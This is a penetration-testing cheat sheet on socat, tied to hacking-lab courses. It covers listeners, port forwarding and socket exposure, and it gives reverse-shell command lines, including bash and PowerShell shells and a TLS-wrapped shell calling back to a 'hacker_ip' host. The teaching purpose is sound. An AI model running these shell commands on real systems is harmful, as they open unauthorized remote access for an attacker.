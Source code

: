 # socat

[![pivoting_tunneling_port_forwarding](../../../../_badges/htb/pivoting_tunneling_port_forwarding.svg)](https://academy.hackthebox.com/course/preview/pivoting-tunneling-and-port-forwarding)
[![introtoshells](../../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-lg-2"><div>

socat is a command similar to netcat. Similarly to other wrappers, it can be used for a client or a server, but with socat, you will mostly use a wrapper for both sides.

On the target, you will most likely have to upload a [static binary of socat](https://github.com/andrew-d/static-binaries/tree/master/binaries) as the command is rarely already installed.

The command is taking two "addresses":

```ps
$ socat EXPR1 EXPR2
```

➡️ Add `-d -d` for debug information.
</div><div>

A few basic elements:

* `TCP-L:port`/`TCP-LISTEN:port`: listen on that port
* `TCP:IP:port`: connect to a host on a port
* `-`/`STDOUT`: write to stdout
* `EXEC:xxx`: connect to a command
* `FILE:xxx`: connect to a file
</div></div>

<hr class="sep-both">

## Common Examples

[![pivoting_tunneling_port_forwarding](../../../../_badges/htb/pivoting_tunneling_port_forwarding.svg)](https://academy.hackthebox.com/course/preview/pivoting-tunneling-and-port-forwarding)
[![introtoshells](../../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-lg-2"><div>

For a server similar `nc -lnp port`:

```shell!
$ socat TCP-L:port FILE:`tty`,raw,echo=0 # interactive
$ socat TCP-L:port -                     # semi-interactive
$ socat TCP-LISTEN:port STDOUT           # semi-interactive
```

For a client similar to `nc IP port [...]`:

```ps
$ socat TCP:IP:port EXEC:"bash -li",pty,stderr,sigint,setsid,sane # interactive
$ socat TCP:IP:port EXEC:"bash -li"             # semi-interactive
PS> socat TCP:IP:port EXEC:powershell.exe,pipes # semi-interactive?
```
</div><div>

To use SSL/TLS, you need to generate a certificate, try with [openssl](/cybersecurity/cryptography/commands/openssl.md).

```shell!
$ cat key.pem cert.pem > shell.pem
$ socat OPENSSL-LISTEN:port,cert=shell.pem,verify=0 [...] # Server
$ socat OPENSSL:hacker_ip:port,verify=0 [...] # Client
```

To expose a UNIX socket at `localhost:1234`:

```shell!
$ socat TCP-LISTEN:1234,reuseaddr,fork UNIX-CONNECT:/path/to/xxx.sock
```

Listen on traffic on `1234` and forward it to `IP:port`:

```shell!
$ socat TCP4-LISTEN:1234,fork TCP4:IP:port
```
</div></div>